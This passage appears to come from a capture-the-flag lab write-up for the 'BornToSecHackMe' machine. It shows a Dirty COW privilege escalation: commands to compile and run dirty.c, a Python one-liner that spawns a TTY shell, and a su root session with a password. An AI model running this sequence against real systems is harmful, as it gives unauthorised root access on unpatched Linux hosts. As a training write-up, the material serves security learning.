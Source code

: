 ### Exploit:

- An attacker can exploit Dirty COW to gain **root privileges** by modifying files they normally wouldn't have access to, such as system binaries.

Compile the `dirty.c` file:

```jsx
gcc -pthread dirty.c -o dirty -lcrypt
```

Run the compiled exploit:

```jsx
./dirty
```

Spawn a TTY shell because the shell environment is not stable:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Switch to the root user using the `su` command:

```jsx
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su root
Password: yoyo
root@BornToSecHackMe:~#
```
